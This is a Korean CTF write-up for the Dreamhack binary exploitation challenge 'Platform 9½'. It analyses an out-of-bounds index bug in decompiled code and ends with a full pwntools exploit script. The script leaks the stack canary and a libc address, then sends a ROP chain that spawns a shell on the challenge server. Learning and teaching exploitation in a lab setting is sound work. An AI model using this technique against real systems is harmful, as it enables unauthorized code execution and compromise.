# [Dreamhack.io] Platform 9½ Write-Up

- **Platform:** Dreamhack
- **Date:** 2026-09-01 (solved) / 2026-09-02 (written)
- **Difficulty:** Medium
---

## 1. Challenge Overview (문제 개요)

> [!TIP]
> 📖 **문제 요약**
> - **목표:** `/bin/sh` 실행
> - **제공 파일:**
> ```text
> ┌──── Dockerfile
> ├──── chall
> ├──── libc.so.6
> └──── deploy/
> 	├──── chall
>     └──── flag
> ```
> - **보호 기법:**
> ```text
> Arch:       amd64-64-little
> RELRO:      Full RELRO
> Stack:      Canary found
> NX:         NX enabled
> PIE:        PIE enabled
> SHSTK:      Enabled
> IBT:        Enabled
> ```

---

## 2. Vulnerability Analysis (취약점 분석)

### 소스 코드 / 디컴파일 분석

- 다음은 ghidra로 분석한 `main` 함수이다.

```c
undefined8 main(void)
{
  undefined4 *puVar1;
  long in_FS_OFFSET;
  int local_fc;
  int local_f8;
  int local_f4;
  uint *local_f0;
  undefined4 *local_e8 [10];
  char local_98 [136];
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  FUN_00101229();
  local_f0 = (uint *)&DAT_00104010;
  for (local_f4 = 0; local_f4 < 10; local_f4 = local_f4 + 1) {
    puVar1 = malloc((long)DAT_00104010);
    local_e8[local_f4] = puVar1;
  }
  *(undefined8 *)local_e8[0] = 0x6f6b6f420a6f6d41;
  *(undefined2 *)((long)local_e8[0] + 8) = 10;
  *local_e8[1] = 0x646e614e;
  *(undefined4 *)((long)local_e8[1] + 3) = 0xa6f64;
  print_banner();
  while( true ) {
    while( true ) {
      print_menu();
      printf(">> ");
      __isoc99_scanf(&DAT_001020d3,&local_fc);
      if (local_fc != 1) break;
      printf("Enter train number: ");
      __isoc99_scanf(&DAT_001020d3,&local_f8);
      puts((char *)local_e8[local_f8 + -1]);
    }
    if (local_fc != 2) break;
    printf("Enter train number: ");
    __isoc99_scanf(&DAT_001020d3,&local_f8);
    read(0,local_98,(ulong)*local_f0);
    strcpy((char *)local_e8[local_f8 + -1],local_98);
  }
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

- 흐름은 다음과 같다.
	1. 0x80 크기의 청크를 10개 할당한다. 할당된 청크의 사용자 영역 주소를 지역 변수에 저장한다.
	2. 1번 옵션을 통해 어떤 주소에 있는 값을 출력할 수 있다..
	3. 2번 옵션을 통해 지역 변수에 값을 입력하고 어떤 주소에 해당 값을 복사한다.

- 여기서 1번과 2번 옵션 모두 인덱스에 대한 검증이 없어서 OOB가 발생하고, AAW (Arbitrary Address Write), AAR (Arbitrary Address Read)가 가능하다.

- 하지만 AAR 과정에서 우리가 위치한 메모리의 값을 다시 주소로 삼아 출력하므로, 직접 카나리 값이나 `main` 함수의 리턴 주소를 알 수는 없을 것 같다.

- `read(0, local_98, (ulong)*local_f0)`을 보면, 값을 입력할 때 크기는 `local_f0`가 가리키는 위치의 값을 이용함을 알 수 있다.
- 이를 OOB와 연관시켜서 생각하면, 해당 위치의 값을 변조할 수 있음을 의미한다.

### 할당된 청크를 저장하는 지역 변수 위치 (`chunks` 라고 하자)



- 10개의 청크를 할당하는 구문이다.
- 여기서 `malloc`으로 할당된 청크의 사용자 영역 시작 주소를 `rdx`에 넣고, `rbp - 0xe0` 위치부터 `rbp - 0xec` 인덱스만큼 떨어진 위치에 `rdx`를 넣는 것을 볼 수 있다.
- 따라서 청크의 주소를 저장하는 지역 변수는 `rbp - 0xe0`에 있고, 해당 반복문의 변수는 `rbp - 0xec`에 있음을 알 수 있다.

### 옵션 입력값을 저장하는 지역 변수 위치 (`option` 라고 하자)



- 위 명령어들은 바이너리 흐름으로 보았을 때, 배너와 메뉴를 출력한 다음, 사용자의 입력값을 받는 부분이다.
- 여기서 `scanf` 함수의 두 번째 인자(`rsi`)에 들어가는 값이 `rbp - 0xf4`의 주소임을 보면, 사용자의 메뉴 입력값은 `rbp - 0xf4` 위치에 들어감을 알 수 있다.

### 접근할 인덱스 값을 저장하는 지역 변수 위치 (`train_num` 라고 하자)



- 위의 명령어는 사용자가 입력한 값이 1인 경우 실행하는 명령어들 중 일부이다.
- 여기서 다시 `scanf`로 `rbp - 0xf0`에 위치한 변수에 값을 입력 받기 때문에, 사용자가 접근할 인덱스를 저장하는 위치는 `rbp - 0xf0`임을 알 수 있다.

### 2번 옵션을 통해 값을 입력하는 위치 (`buf` 라고 하자)



- 위의 명령어는 사용자가 입력한 값이 2인 경우 마지막으로 실행되는 복사 과정이다.
- 여기서 두 번째 전달인자(source 변수)인 `rsi`에 `rbp - 0x90`이 들어간다.
- 따라서 사용자가 특정 위치에 넣을 값을 임시로 저장하는 변수는 `rbp - 0x90`에 위치한다.

### 2번 옵션에서 `buf`에 넣을 값의 크기 (`size` 라고 하자)



- 2번 옵션에서 `buf` 변수에 값을 `read`하는 부분이다.
- 여기서 마지막 전달인자인 `size`가 `rbp - 0xe8`이 가진 주소에 들어있는 값으로 설정된다.
- 따라서 값의 크기를 나타내는 주소는 `rbp - 0xe8`에 저장된다.

### 전체 스택 프레임

- 위의 과정들을 통해 알아낸 전체 `main` 함수의 스택 프레임은 다음과 같다.

```text
┌──────────────────────────────────────┐ <- rbp - 0xf8
│                   │      option      │
├──────────────────────────────────────┤ <- rbp - 0xf0
│     train_num     │    loop var      │
├──────────────────────────────────────┤ <- rbp - 0xe8
│                  size                │
├──────────────────────────────────────┤ <- rbp - 0xe0
│                                      │
│                chunks                │
│                                      │
│                                      │
├──────────────────────────────────────┤ <-rbp - 0x90
│                                      │
│                  buf                 │
│                                      │
│                                      │
├──────────────────────────────────────┤ <- rbp - 0x8
│                 canary               │
├──────────────────────────────────────┤ <- rbp
│                   SFP                │
├──────────────────────────────────────┤
│                   RET                │
└──────────────────────────────────────┘
```

- 그러면 다음과 같이 시나리오가 나온다.


---

## 3. Exploit Strategy (최종 해결 전략)

> [!TIP]
> ✏️ **페이로드 구성**
> - 1️⃣ **입력 개수 제한 해제**
> 	1. `option`이 `2`이고, `train_num`을 `0`으로 설정하여 `size` 변수에 접근한다.
> 	2. `size` 변수가 가리키는 위치를 0x80보다는 큰 더미값으로 설정한다. (여기서는 `b'A'*8`)
> - 2️⃣ **Canary Leak**
> 	1. `option`이 `2`이고, `train_num`을 `1`로 설정하여 처음 할당된 청크에 접근한다.
> 	2. 그 위치에 0x89 바이트(`buf` 크기 + 1)의 더미값을 입력한다.
> 	   => `strcpy()` 특성 상 널 바이트가 나올 때까지 값이 청크에 저장된다.
> 	3. `option`이 `1`이고, `train_num`을 `1`로 설정하여 처음 할당된 청크에 값을 출력한다.
> 	4. 나온 값을 통해 Canary를 알아낸다.
> - 3️⃣ **`main` 함수의 `RET` 주소 Leak**
> 	1. `option`이 `2`이고, `train_num`을 `1`로 설정하여 처음 할당된 청크에 접근한다.
> 	2. 그 위치에 0x98 바이트(`buf + canary + SFP`)의 더미값을 입력한다.
> 	   => `strcpy()` 특성 상 널 바이트가 나올 때까지 값이 청크에 저장된다.
> 	3. `option`이 `1`이고, `train_num`을 `1`로 설정하여 처음 할당된 청크에 값을 출력한다.
> 	4. 나온 값을 통해 `main` 함수의 `RET` 주소를 알아낸다.
> - 4️⃣ **ROP 체인 구성**
> 	1. `option`이 `2`이고, `train_num`을 `1`로 설정하여 처음 할당된 청크에 접근한다.
> 	2. 그 위치에 아래와 같이 페이로드를 구성한다.
> 	   : 0x88 더미값(`buf`) + `canary` + 0x8 더미값(`sfp`) + `ROP chain`
> 	   : 처음 할당된 청크에도 저장이 되지만, 중요한 것은 `buf` 변수의 bof로 인해 `ret` 주소가 변조된다는 점이다.
> 	3. `option`을 다른 값으로 주어, 루프문을 빠져나온다.

### 라이브러리 가젯과 함수들의 오프셋 구하기

- 라이브러리 버전이 같다면 가젯과 함수의 오프셋은 동일하다.
- 이 점을 이용해 먼저 오프셋을 구해보자.

#### `__libc_start_call_main` 함수의 시작 주소



* gdb를 이용해 바이너리를 Entry Point에 멈춘 뒤, `__libc_start_call_main` 주소를 출력한 결과이다.

#### `system` 함수의 시작 주소



- `__libc_system` 주소를 출력한 결과이다.

#### 라이브러리의 베이스 주소



- `__libc_start_call_main`과 `__libc_system` 함수의 오프셋은 다음과 같다.

```text
__libc_start_call_main의 오프셋 = __libc_start_call_main 실제 주소 - 라이브러리 베이스 주소 = 0x7ffff7c2a150 - 0x7ffff7c00000 = 0x2a150

__libc_system의 오프셋 = __libc_system 실제 주소 - 라이브러리 베이스 주소 = 0x7ffff7c58750 - 0x7ffff7c00000 = 0x58750
```

#### `pop rdi; ret`, `ret` 가젯 오프셋



- 라이브러리 내에서 `pop rdi; ret` 가젯까지의 오프셋을 구하면 0x10f75b 임을 알 수 있다.



- 마찬가지 방법으로 `ret` 가젯은 0x2882f 오프셋을 가짐을 알 수 있다.

#### `/bin/sh` 문자열의 파일 오프셋



- 바이너리 파일 내 문자열을 검색하는 `strings` 명령어를 통해 `/bin/sh` 문자열의 오프셋을 구하면 0x1cb42f이다.

#### `main` 함수는 어디로 리턴하는가

* 마지막으로 `main` 함수가 리턴될 때의 위치를 알아보자. (`main` 함수의 `RET` 값은 `__libc_start_call_main`의 어딘가이므로 이를 알아야 정확히 시작 주소를 알 수 있다.)



- pwndbg을 통해 `main` 함수로 들어온 모습이다.
- BACKTRACE 메뉴를 통해 `main` 함수는 `__libc_start_call_main+122`로 리턴함을 알 수 있다.
- 그렇다면 `main` 함수의 `RET` 주소에서 122을 빼면 `__libc_start_call_main`의 시작 주소를 알게 되고, 여기서 해당 함수의 오프셋을 빼면 라이브러리 베이스 주소를 알 수 있다.

---

## 4. Exploit Code (최종 익스플로잇 코드)

```python
from pwn import *

# p = process('./chall', env={'LD_PRELOAD': './libc.so.6'})
p = remote('host3.dreamhack.games', 19208)
e = ELF('./chall')
libc = ELF('./libc.so.6')

def slog(name, addr): return success(': '.join([name, hex(addr)]))

def edit(idx, payload):
    p.sendlineafter(b'>> ', b'2')

    p.sendlineafter(b'Enter train number: ', str(idx).encode())

    p.send(payload)

def show(idx):
    p.sendlineafter(b'>> ', b'1')

    p.sendlineafter(b'Enter train number: ', str(idx).encode())

# [1] Leak Canary
edit(0, b'A' * 8)       # size overwrite

edit(1, b'A' * 0x89)    # first chunk has canary

show(1)

p.recvuntil(b'A' * 0x89)
cnry = u64(b'\x00' + p.recvn(7))
slog('canary', cnry)

# [2] Leak main() return address
edit(1, b'A' * 0x98)

show(1)

p.recvuntil(b'A' * 0x98)
main_return_addr = u64(p.recvn(6) + b'\x00' * 2)
slog('main return address', main_return_addr)

# [3] Calculate Libc base address
libc_start_call_main = main_return_addr - 122
libc_base = libc_start_call_main - 0x2a150
pop_rdi = libc_base + 0x10f75b
ret = libc_base + 0x2882f
system = libc_base + 0x58750
binsh = libc_base + next(libc.search('/bin/sh'))

slog('libc base', libc_base)

# [4] ROP Chain
payload = b'A' * 0x88 + p64(cnry) + p64(0xDEADBEEF)
payload += p64(pop_rdi) + p64(binsh)
payload += p64(ret) + p64(system)

edit(1, payload)

p.sendlineafter(b'>> ', b'0')

p.interactive()
```

- 원격에서 오프셋을 바꾸고 진행하면 다음과 같이 잘 나오는 것을 볼 수 있다.


